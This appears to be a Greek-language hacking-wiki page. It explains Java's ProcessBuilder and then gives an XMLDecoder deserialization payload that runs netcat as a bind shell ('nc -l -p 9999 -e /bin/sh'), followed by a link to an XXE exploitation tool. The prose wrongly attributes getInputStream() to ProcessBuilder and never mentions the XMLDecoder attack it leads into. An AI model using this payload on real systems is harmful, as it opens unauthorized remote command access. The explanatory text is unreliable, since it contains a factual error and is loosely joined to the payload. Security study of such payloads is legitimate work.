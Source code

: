 Ο `ProcessBuilder` είναι μια κλάση στην Java που χρησιμοποιείται για τη δημιουργία και εκτέλεση νέων διεργασιών. Μπορεί να χρησιμοποιηθεί για να εκτελέσει εξωτερικές εντολές στο λειτουργικό σύστημα από μια εφαρμογή Java.

Για να χρησιμοποιήσετε το `ProcessBuilder`, πρέπει να δημιουργήσετε ένα αντικείμενο της κλάσης και να ορίσετε την εντολή που θέλετε να εκτελέσετε. Μπορείτε επίσης να ορίσετε οποιεσδήποτε παραμέτρους ή περιβαλλοντικές μεταβλητές που απαιτούνται για την εκτέλεση της εντολής.

Αφού ορίσετε την εντολή και τις παραμέτρους, μπορείτε να εκτελέσετε τη διεργασία καλώντας τη μέθοδο `start()` του αντικειμένου `ProcessBuilder`. Αυτό θα δημιουργήσει μια νέα διεργασία και θα την εκτελέσει.

Μπορείτε επίσης να ανακτήσετε την έξοδο της διεργασίας καλώντας τη μέθοδο `getInputStream()` του αντικειμένου `ProcessBuilder`. Αυτό θα επιστρέψει ένα `InputStream` που μπορείτε να χρησιμοποιήσετε για να διαβάσετε την έξοδο της διεργασίας.

Ο `ProcessBuilder` είναι ένα χρήσιμο εργαλείο για την εκτέλεση εξωτερικών εντολών από μια εφαρμογή Java. Ωστόσο, πρέπει να ληφθούν υπόψη οι πιθανοί κίνδυνοι ασφάλειας και να εφαρμοστούν κατάλληλα μέτρα προστασίας για να αποτραπεί η κακόβουλη χρήση του.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="6">
<void index="0">
<string>/usr/bin/nc</string>
</void>
<void index="1">
<string>-l</string>
</void>
<void index="2">
<string>-p</string>
</void>
<void index="3">
<string>9999</string>
</void>
<void index="4">
<string>-e</string>
</void>
<void index="5">
<string>/bin/sh</string>
</void>
</array>
<void method="start" id="process">
</void>
</void>
</java>
```
## Εργαλεία

{% embed url="https://github.com/luisfontes19/xxexploiter" %}

## Αναφορές
